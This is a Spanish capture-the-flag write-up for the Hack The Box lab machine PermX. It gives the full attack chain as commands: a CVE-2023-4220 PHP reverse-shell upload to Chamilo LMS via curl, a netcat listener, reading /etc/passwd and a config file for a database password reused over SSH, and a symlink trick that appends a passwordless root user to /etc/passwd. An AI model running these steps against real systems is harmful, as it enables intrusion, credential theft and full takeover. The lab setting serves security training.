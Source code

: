 # Reconocimiento
sudo nmap -sS -sV -A --min-rate 5000 --open -vvv -Pn 10.10.11.23

# Resultado

| port | state | service | reason | version |
|------|-------|---------|--------|---------|
| 22 | open | ssh |  syn-ack | OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0) |
| 80 | open | http |  syn-ack | Apache httpd 2.4.52 |

- Copiamos la ip en la url de nuestro navegador.
- revisamos la web cargada.
- encontramos la url (http://permx.htb/).

# Copiamos la url en el archivo
- cd nano /etc/hosts
- ip 10.10.11.23 http://permx.htb/
- guardamos con ctrl + s
- ctrl + x

# Realizamos un escaneo con
> whatweb -v -a 3 http://permx.htb/ 

# Encontramos

| Resultado |
|-----------|
| Summary   : Apache[2.4.52], |
|  Bootstrap[5.0.0] |
| Email[permx@htb.com] |
| HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)] |
| JQuery[3.4.1] |

# Ataque de directorio con Gobuster

| ataque | estado |
|--------|--------|
| sudo gobuster vhost -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://permx.htb --append-domain | grep -v "Status: 302" | exitoso |

| resultado |
|-----------|
| lms.permx.htb |

# Reconocimiento de la nueva url encontrada con whatweb

|Ataque|
|------|
| whatweb -v -a 3 http://lms.permx.htb/index.php |


|resultados|
|----------|
| Apache |
| Version      : 2.4.52 (from HTTP Server Header) Google Dorks: (3)  
| Website     : http://httpd.apache.org/ |

# CVE

- CVE-2023-4220

- Investigamos en internet la revershell que podriamos usar con este CVE
- Descargamos la shell
- La enviamos al servidor 

> curl -F 'bigUploadFile=@sheel.php' 'http://lms.permx.htb//main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported' 

- Nos colocamos en escucha

| nc |
|----|
| sudo nc -lvnp 9001 |

- Ejecutamos la Revershell

> curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/sheel.php'

- Ingresamos al servidor y importamos una libreria de python para obtener una bash

| importamos bash |
|-----------------|
| python3 -c 'import pty;pty.spawn("/bin/bash")' |


- Buscamos la existencia de otros usuarios

> cat /etc/passwd | grep -i sh$

|resultados|
|----------|
| root:x:0:0:root:/root:/bin/bash|
|mtz:x:1000:1000:mtz:/home/mtz:/bin/bash |

- Realizamos una busqueda por ficheros

> find ./ | grep “configuration.php” 2>dev/null 


- Dentro de la busqueda encontramos la siguiente linea 


> cat ./var/www/chamilo/app/config/configuration.php 


- Esto nos da resultados de la configuracion de la base de datos
- 
> Database connection settings.
> $_configuration['db_host'] = 'localhost';
> $_configuration['db_port'] = '3306';
> $_configuration['main_database'] = 'chamilo';
> $_configuration['db_user'] = 'chamilo';
> $_configuration['db_password'] = '03F6lY3uXAP2bkW8';
> Enable access to database management for platform admins.
> $_configuration['db_manager_enabled'] = false;

- Nos conectamos por ssh con ese usuario de la db

| ruta | passwd |
| ssh mtz@permx.htb   | 03F6lY3uXAP2bkW8 |


> flag 1 encontrada dentro de user.txt

# Proceso de escalada de privilegios

- Ejecutamos  
> sudo -l 
- Para saber que permisos tenemos para ejecutar como este usuario
- Vemos un script llamado
> acl.sh 
- Este esript nos permite modificar los permisos dentro del path de /home/mtz
- con el comando
> ln -s /etc/passwd /home/mtz/test 
- creamos un link entre 
> /etc/passwd 
- y 
> /home/mtz/test 
- lo que nos va a permitir tener una comunicacion directa con passwd a traves de 
> /home/mtz/test 
- para que tengamos los permisos tenemos que ejecutar el siguiente comando
> sudo /opt/acl.sh mtz rw /home/mtz/test 
- este comando lo que hace es que a traves de 
> sudo /opt/acl.sh  
- le asigna a 
>  mtz 
- los permisos de escritura y lectura
> rw 
- al archivo que asignamos con el link  
> /home/mtz/test 
- anterior para poder tener acceso y con 
> echo "root3::0:0:root3:/root:/bin/bash" >> ./test
- creamos un root llamado root3 y les damos los mismos permisos de root ya con esto solo ejecutamos 
> su root3 
- y tendremos los privilegios de root 
- realizamos un cd /
- luego cd root
- y encontramos la flag dentro de root.txt
